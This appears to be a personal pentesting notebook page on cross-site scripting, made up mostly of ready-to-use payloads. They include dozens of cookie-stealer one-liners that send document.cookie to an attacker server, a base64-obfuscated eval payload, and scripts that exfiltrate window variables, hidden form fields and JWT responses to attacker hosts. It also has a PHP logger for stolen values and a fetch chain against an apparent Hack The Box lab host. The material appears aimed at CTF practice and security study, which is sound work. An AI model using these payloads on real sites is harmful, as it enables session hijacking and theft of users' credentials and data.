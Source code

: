 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

[beEF](https://github.com/beefproject/beef)

### Good test payloads
```
<script>alert(1)</script>
<img src =q onerror=prompt(8)>
```

### Classic Cookie Stealer
```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Here we have used btoa() method for converting the cookie string into base64 encoded string.
Setup http server to catch responses:
```
python3 -m http.server -m 80
```

### One Liner to steal all stored js variables

```
# to the console
<script>for(var p in window) window.hasOwnProperty(p)&&"function"!=typeof window[p]&&console.log(p+": "+window[p])</script>

# to remote server
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'https://attacker-server.com/steal.php', true);
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  var variables = {};
  for (var p in window) {
    if (window.hasOwnProperty(p) && typeof window[p] !== 'function') {
      variables[p] = window[p];
    }
  }
  xhr.send(JSON.stringify(variables));
</script>

# contents of steal.php (I dont know if its needed though)
<?php
$p_session = $_POST['p_session']; // Accessing the stolen p_session value

// Log or process the stolen value as desired
$logFile = 'stolen_data.log';
$logData = date('Y-m-d H:i:s') . ' - p_session: ' . $p_session . "\n";
file_put_contents($logFile, $logData, FILE_APPEND);
?>

```

### Steal the value of hidden input fields on a page

Using BEEF can be an easier way to steal HTML pages and Form Values if you are having trouble with the below

Let's say the target web page contains a hidden input field with an id of "secret":
```
<input type="hidden" id="secret" value="sensitive_value">
```

You can also change this from getElementById to getElementsByName if its using name instead of id.

An attacker can inject a malicious script that retrieves the value of the hidden input field and sends it to a remote server.


```
<script>
  var secretValue = document.getElementById('secret').value;

  // Create an image element and set its source to the attacker's server,
  // passing the secret value as a query parameter
  var img = new Image();
  img.src = 'https://attacker-server.com/steal.php?secret=' + encodeURIComponent(secretValue);
</script>

### Same script on one line

<script>var secretValue=document.getElementById('secret').value;var img=new Image();img.src='https://attacker-server.com/steal.php?secret='+encodeURIComponent(secretValue);</script>

```
Simple alert box POC:
```
<script>alert(document.getElementById('html_input_field').value);</script>
```
Using name instead of id:
```
<script>var p_session = document.getElementsByName("p_session")[0].value; alert("p_session value: " + p_session);</script>
```
### Downloader for longer XSS payloads
```
<script src=http://10.10.14.23:80/payload.js>
```

### stealing value set in a response (such as a jwt token)
Use a downloader to pull the following code:
```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		var yourtoken = xhr.response
		var xhr2 = new XMLHttpRequest();
		xhr2.open("GET", "http://127.0.0.1:8000/?body=" + yourtoken);
		xhr2.send();
	}
}
xhr.open("GET", "https://some-url.com/v2/authenticationtoken/refresh");
xhr.send();
```
This script will send a request to a specific page as the user and then will send the response back to you.
Make sure to set the first URL as yourself (and open a python http listener) and set the second URL to the request containing the sensitive info in the response.
**This will grab the entire body, use the article below you need to grab a header**

https://medium.com/@agrawalsmart7/steal-csrf-auth-unique-key-header-with-xss-5a54c38d7ec3

### HttpOnly attribute bypass
https://www.shorebreaksecurity.com/blog/xss-exploitation-with-xhr-response-chaining/

### Javascript to make a request to a page as another user

```

var data = new URLSearchParams('email[$ne]=1&password[$regex]=^69.*$');
fetch('http://staff-review-panel.mailroom.htb/auth.php', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/x-www-form-urlencoded'
	},
	body: data.toString()
})
	.then(response => response.text())
	.then(data => {
	// Make a POST request to another website with the data
		fetch('http://10.10.14.23/post', {
			method: 'POST',
			headers: {
				'Content-Type': 'text/plain'
			},
			body: data
		})
			.then(response => console.log('Data sent:', response));
	});

```

# Server Side XSS (Dynamic PDF)
[hacktrick article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.

```
Discovery:
List current directory
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>



```

### XSS is .md files

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
